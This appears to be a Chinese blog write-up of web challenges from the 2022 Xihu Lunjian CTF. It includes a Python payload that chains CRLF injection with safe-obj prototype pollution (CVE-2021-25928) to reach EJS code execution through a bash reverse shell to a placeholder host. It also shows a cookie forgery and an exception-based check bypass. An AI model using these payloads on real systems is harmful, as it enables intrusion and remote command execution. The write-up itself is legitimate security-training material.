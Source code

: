 ```yaml
---
title: "2022 西湖论剑 Web 部分 Writeup"
date: 2023-02-03T18:00:53+08:00
lastmod: 2023-02-03T18:00:53+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


web 差一半, 等官方 wp 吧...

团队整体第二名, 学长们 tql

<!--more-->

## real_ez_node

/routes/index.js

```javascript
var express = require('express');
var http = require('http');
var router = express.Router();
const safeobj = require('safe-obj');
router.get('/',(req,res)=>{
  if (req.query.q) {
    console.log('get q');
  }
  res.render('index');
})
router.post('/copy',(req,res)=>{
  res.setHeader('Content-type','text/html;charset=utf-8')
  var ip = req.connection.remoteAddress;
  console.log(ip);
  var obj = {
      msg: '',
  }
  if (!ip.includes('127.0.0.1')) {
      obj.msg="only for admin"
      res.send(JSON.stringify(obj));
      return 
  }
  let user = {};
  for (let index in req.body) {
      if(!index.includes("__proto__")){
          safeobj.expand(user, index, req.body[index])
      }
    }
  res.render('index');
})

router.get('/curl', function(req, res) {
    var q = req.query.q;
    var resp = "";
    if (q) {
        var url = 'http://localhost:3000/?q=' + q
            try {
                http.get(url,(res1)=>{
                    const { statusCode } = res1;
                    const contentType = res1.headers['content-type'];
                  
                    let error;
                    // 任何 2xx 状态码都表示成功响应，但这里只检查 200。
                    if (statusCode !== 200) {
                      error = new Error('Request Failed.\n' +
                                        `Status Code: ${statusCode}`);
                    }
                    if (error) {
                      console.error(error.message);
                      // 消费响应数据以释放内存
                      res1.resume();
                      return;
                    }
                  
                    res1.setEncoding('utf8');
                    let rawData = '';
                    res1.on('data', (chunk) => { rawData += chunk;
                    res.end('request success') });
                    res1.on('end', () => {
                      try {
                        const parsedData = JSON.parse(rawData);
                        res.end(parsedData+'');
                      } catch (e) {
                        res.end(e.message+'');
                      }
                    });
                  }).on('error', (e) => {
                    res.end(`Got error: ${e.message}`);
                  })
                res.end('ok');
            } catch (error) {
                res.end(error+'');
            }
    } else {
        res.send("search param 'q' missing!");
    }
})
module.exports = router;
```

Dockerfile 中的环境是 `node:8.1.2`, 存在 CRLF 注入

参考文章: [https://www.anquanke.com/post/id/240014#h2-11](https://www.anquanke.com/post/id/240014#h2-11)

然后结合已知的 safe-obj 原型链污染, 即 `CVE-2021-25928`, 利用 ejs 进行 rce

构造 payload

```python
from urllib.parse import quote

payload = ''' HTTP/1.1


POST /copy HTTP/1.1
Host: 127.0.0.1:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36 Edg/109.0.1518.70
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
Content-Type: application/json
Content-Length: 218

{"constructor.prototype.client":true,"constructor.prototype.escapeFunction":"1; return global.process.mainModule.constructor._load('child_process').execSync('bash -c \\"bash -i >& /dev/tcp/x.x.x.x/yyyy 0>&1\\"');"}

GET /'''.replace('\n', '\r\n')

enc_payload = u''

for i in payload:
    enc_payload += chr(0x0100 + ord(i))

print(quote(enc_payload))
```

![image-20230202180355225](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302021804644.png)

反弹 shell 后执行 `cat /flag` 即可

## 扭转乾坤

直接上传提示 `Sorry,Apache maybe refuse header equals Content-Type: multipart/form-data;.`

![image-20230202180603240](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302021806316.png)

构造错误的 http 包格式就可以绕过

![image-20230202180630208](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302021806297.png)

## Node Magical Login

controller.js

```javascript
const fs = require("fs");
const SECRET_COOKIE = process.env.SECRET_COOKIE || "this_is_testing_cookie"

const flag1 = fs.readFileSync("/flag1")
const flag2 = fs.readFileSync("/flag2")


function LoginController(req,res) {
    try {
        const username = req.body.username
        const password = req.body.password
        if (username !== "admin" || password !== Math.random().toString()) {
            res.status(401).type("text/html").send("Login Failed")
        } else {
            res.cookie("user",SECRET_COOKIE)
            res.redirect("/flag1")
        }
    } catch (__) {}
}

function CheckInternalController(req,res) {
    res.sendFile("check.html",{root:"static"})

}

function CheckController(req,res) {
    let checkcode = req.body.checkcode?req.body.checkcode:1234;
    console.log(req.body)
    if(checkcode.length === 16){
        try{
            checkcode = checkcode.toLowerCase()
            if(checkcode !== "aGr5AtSp55dRacer"){
                res.status(403).json({"msg":"Invalid Checkcode1:" + checkcode})
            }
        }catch (__) {}
        res.status(200).type("text/html").json({"msg":"You Got Another Part Of Flag: " + flag2.toString().trim()})
    }else{
        res.status(403).type("text/html").json({"msg":"Invalid Checkcode2:" + checkcode})
    }
}

function Flag1Controller(req,res){
    try {
        if(req.cookies.user === SECRET_COOKIE){
            res.setHeader("This_Is_The_Flag1",flag1.toString().trim())
            res.setHeader("This_Is_The_Flag2",flag2.toString().trim())
            res.status(200).type("text/html").send("Login success. Welcome,admin!")
        }
        if(req.cookies.user === "admin") {
            res.setHeader("This_Is_The_Flag1", flag1.toString().trim())
            res.status(200).type("text/html").send("You Got One Part Of Flag! Try To Get Another Part of Flag!")
        }else{
            res.status(401).type("text/html").send("Unauthorized")
        }
    }catch (__) {}
}



module.exports = {
    LoginController,
    CheckInternalController,
    Flag1Controller,
    CheckController
}
```

构造 cookie `user=admin` 拿到前半部分 flag

![image-20230202180812631](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302021808709.png)

因为 CheckController 在检查 checkcode 的时候没有对 catch 到的异常进行处理, 所以可以构造一个长度为 16 的数组使得调用 `checkcode.toLowerCase()` 时报错, 然后进入 `catch (__) {}`, 最后顺下去执行得到后半部分 flag

```json
{"checkcode":[1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16]}
```

![image-20230202181034296](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302021810378.png)